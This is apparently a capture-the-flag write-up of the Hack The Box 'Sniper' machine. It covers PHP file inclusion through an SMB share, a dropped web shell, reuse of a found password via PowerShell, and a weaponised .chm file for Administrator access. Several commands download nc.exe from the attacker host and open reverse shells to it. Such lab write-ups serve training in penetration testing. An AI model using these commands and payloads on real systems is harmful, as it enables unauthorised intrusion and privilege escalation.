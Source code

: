 ```yaml
---
date: 2025-02-18
categories: [CTF, HTB]
title: "HTB - Sniper"
tags: ['ftp', 'impacket', 'linux', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'reverse shell', 'smb', 'webshell', 'windows']

description: "Sniper - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Sniper

```bash
nmap 10.129.229.6 -p-
```

![image1](../resources/b0823e0d51b9450f857133a21719c4f4.png)

```bash
nmap 10.129.229.6 -A -p 80,135,139,445,49667
```

![image2](../resources/f01b83f612f5420e9951af814b32cd61.png)

- By selecting a language:

![image3](../resources/9bfd324d519442bf937e248f39b85720.png)

- We can see that a .php file gets included

- This could be a potential LFI (Local File Inclusion)

- We add a known Windows file into the path
  - /Windows\System32\drivers\etc\hosts
  - /windows/win.ini

**(Don't include C:\\ Just add a forward slash / to represent the root directory**


![image4](../resources/1746e4369e2048c6b9ab1ff4abd358eb.png)

And the response:

![image5](../resources/ef9030bf4cc041df9c4fd2532e7e206a.png)

- We can try RFI through http ie. ?lang=//10.10.14.84/test.php
But in the PHP configuration file, "**allow_url_include**" wrapper **by-default set to "Off"** which instruct PHP not to load remote HTTP or FTP URLs

**But it doesn't include SMB**

**<u>Exploit:</u>**
[https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

- Create a file to test (displays php server info):
```bash
echo "<?php phpinfo(); ?>" | tee /tmp/share/test.php

```

- Tried it with impacket-smbserver but we get a connection and it closes

- So following the link above:
```bash
sudo su
apt install samba
mkdir /tmp/share
chmod 0555 /tmp/share
chown -R nobody:nogroup /tmp/share
cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
echo \> /etc/samba/smb.conf
nano /etc/samba/smb.conf

```

<u>Enter the below into smb.conf:</u>

```bash
[global]

workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[share]
path = /tmp/share
writable = yes
guest ok = yes
guest only = yes
read only = no
directory mode = 0555
force user = nobody
```

```bash
service smbd restart
```
- Note: The **\[share\]** is the sharename
So we have to go to **?lang=\\10.10.14.84\share\test.php**


![image6](../resources/4036e457ef704831bf4c0c0433abe9b3.png)

It worked!

- Now let's get an interactive web shell:
```bash
git clone https://github.com/incredibleindishell/Mannu-Shell.git
cd Mannu-Shell
cp mannu.php /tmp/share

```
**/blog/?lang=\\10.10.14.84\share\mannu.php**


![image7](../resources/5a285eb9a22a4d58b597168183d1c199.png)

We get this weird looking indi web shell

- We can execute commands:

![image8](../resources/f1d4373b3e13496d8882e38daca7bce9.png)

Create a Powershell reverse shell from revshells and execute:


![image9](../resources/ef5dbdfd001141aeae6206c764929558.png)

We get a more stable shell as user **iusr**:


![image10](../resources/6e8f99e8173a46b89951dc8feb4947f4.png)


![image11](../resources/3db899fe59d44200807503c0a9fdf95a.png)

SeImpersonatePrivilege is set
- But I can't exploit that here

Moving on:
- We get credentials in **C:\inetpub\wwwroot\user\db.php**

![image12](../resources/e5e14b52a760451dbdb920ed1b7229fe.png)

**36mEAhz/B8xQ~2VM**

- There is another user - Chris

![image13](../resources/01f20af06aa843e68f07e96bd5336f5c.png)

- We can check if the credentials were reused:
```bash
crackmapexec smb 10.129.202.21 -u "chris" -p '36mEAhz/B8xQ~2VM'

```

![image14](../resources/55027208299e4240b7cd749dc76848a9.png)

- Checking with powershell:

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;

```

![image15](../resources/3ea1bcd8001c426f8a4ef58e29f74908.png)

- Now we know the credentials are being reused - we can try and get a shell:
**(Msfvenom generated payloads didn't work - only nc.exe worked)**

- Get nc.exe ready
- Start a python http server and a nc listener

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.84/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4444} -credential $credential;

```
**or**

```bash
invoke-command -computer sniper -scriptblock { C:\Users\chris\nc.exe 10.10.14.84 1234 -e powershell.exe } -credential $cred

```

![image16](../resources/f63c862f58734ca09008ed61b556c103.png)

- Got a shell as Chris:

![image17](../resources/4906d7dcef4a45b8be5f661c8633da5d.png)

Looking through the folders, there is a file in Chris' Downloads folder


![image18](../resources/5bc4ecccf002498b822b783c56b253aa.png)

Also, in the C:\\ root directory, there is a Docs folder with some files


![image19](../resources/bed0b474e72247da86751d3c7e88db42.png)

We can read the note.txt file:


![image20](../resources/59ac772837314e7688d40561c52fa705.png)

But the other two files, can't be read on here, so we need to transfer them to our machine:

I tried to use the Samba SMB share but it kept saying Access Denied.

So I stopped the smbd service. And started impacket-smbserver in the directory


![image21](../resources/0f1fa70bac96487f877121b67a033da9.png)


![image22](../resources/9fd3e68c190e4cceb07e2654e3e6c27e.png)

I opened the instructions.chm on a Windows VM:


![image23](../resources/ea267fdc263b4c7689884e526c83b22e.png)

**<u>Exploit:</u>**

Following this guide, we can create a malicious .chm file:

[https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)

- Open a Windows VM
- Download HTML Help Workshop and Documentation program (if not already installed)
- Download the Out-CHM.ps1 module (or copy and paste):
<https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1>

- Open PS as admin and run:
```powershell
Set-ExecutionPolicy Unrestricted
Import-Module .\Out-CHM.ps1
out-chm -Payload "C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4445" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

![image24](../resources/652b6c86103b4b7391c80a8562fcb169.png)

- Copy the create doc.chm back to the Kali VM and host an SMB share
- Now copy the doc.chm file from Kali to the victim machine C:\Docs folder

- Set up a listener on the port you specified

- And we have a shell back from the Administrator and can read root.txt:

![image25](../resources/6a6f4483d5d541e191d495b2ffb0df47.png)